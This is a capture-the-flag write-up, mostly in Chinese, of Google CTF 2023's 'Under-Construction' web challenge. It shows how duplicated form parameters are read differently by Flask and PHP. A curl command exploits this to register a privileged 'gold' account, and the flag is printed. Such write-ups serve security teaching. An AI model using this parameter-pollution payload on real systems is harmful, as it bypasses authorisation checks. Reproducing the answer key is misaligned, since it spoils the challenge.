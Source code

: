 # UNDER-CONSTRUCTION

*We were building a web app but the new CEO wants it remade in php.*

*[Attachment](https://storage.googleapis.com/gctf-2023-attachments-project/22790c2f38bd6adde75753641011c223db7e2c0ec718df6e883976ed9c518ca0a86ef67b7e153fd07a9fa734f6a5350028ca266e3bf646f1096d2c4d536ff45a.zip)*
*`https://under-construction-web.2023.ctfcompetition.com`*
*`https://under-construction-php-web.2023.ctfcompetition.com`*

---

题目提供了Flask和PHP两个站点,用户可以在Flask站点进行注册,注册的账号可以同时用于登录Flask和PHP两个站点.

分析代码:

Flask会将HTTP请求原始查询参数转发到PHP应用程序中完成用户注册.

```python
# File: /flask/authorized_routes.py
@authorized.route('/signup', methods=['POST'])
def signup_post():
    raw_request = request.get_data()
    ...
    requests.post(f"http://{PHP_HOST}:1337/account_migrator.php", 
        headers={"token": TOKEN, "content-type": request.headers.get("content-type")}, data=raw_request)
    return redirect(url_for('authorized.login'))
```

只有`gold`级别的用户,在PHP站点登录后才可以看到FLAG

```php
# File: /php/index.php
function getResponse()
{
    ...
    $response = "Login successful. Welcome " . htmlspecialchars($username) . ".";

    if ($tier === "gold") {
        $response .= " " . getenv("FLAG");
    }

    return $response;
}
```

Flask会对查询参数进行校验,防止创建高权限的用户.

```python
# File: /flask/authorized_routes.py
@authorized.route('/signup', methods=['POST'])
def signup_post():
    ...
    tier = models.Tier(request.form.get('tier'))
    if(tier == models.Tier.GOLD):
        flash('GOLD tier only allowed for the CEO')
        return redirect(url_for('authorized.signup'))
    ...
```

HTTP查询参数中存在重复的key时,在Flask和PHP有不同的行为,flask会取第一个值,而PHP会取最后一个值.

因此我们可以构造如下命令,以此绕过Flask对查询参数的校验,并在PHP中注册高权限用户.

**curl**

```shell
curl -X POST https://under-construction-web.2023.ctfcompetition.com/signup -d "username=admin&password=admin&tier=blue&tier=gold"
```

然后用上述的用户名和密码去PHP站点登录即可.

**flag**: `CTF{ff79e2741f21abd77dc48f17bab64c3d}`
